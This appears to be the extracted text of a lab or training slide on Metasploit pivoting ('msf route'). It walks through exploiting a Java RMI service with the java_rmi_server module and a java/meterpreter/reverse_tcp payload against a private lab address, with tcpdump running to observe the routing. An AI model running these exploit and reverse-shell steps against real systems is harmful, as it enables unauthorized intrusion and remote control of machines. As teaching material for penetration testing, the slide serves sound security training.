

msf route
We will exploit one of the easy and previously discovered vulnerabilities
Java RMI
msf6 > use exploit/multi/misc/java_rmi_server
msf6 exploit(multi/misc/java_rmi_server) > set target 0
This sets the target to generic Java
msf6 exploit(multi/misc/java_rmi_server) > set PAYLOAD java/meterpreter/reverse_tcp
msf exploit(multi/misc/java_rmi_server) > set RHOSTS 10.10.0.20

Before exploiting, start TCPdump in another terminal window so we can see how it is routing

Msf6 exploit(multi/misc/java_rmi_server) > exploit